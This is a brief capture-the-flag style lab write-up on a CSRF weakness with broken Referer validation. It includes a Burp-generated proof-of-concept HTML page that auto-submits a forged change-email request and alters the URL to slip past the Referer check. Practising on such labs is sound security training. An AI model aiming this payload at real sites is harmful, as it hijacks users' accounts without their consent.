 There is a function to update the email:



![img](images/CSRF%20with%20broken%20Referer%20validation/2.png)


It is a POST request:



![img](images/CSRF%20with%20broken%20Referer%20validation/3.png)


This is the CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
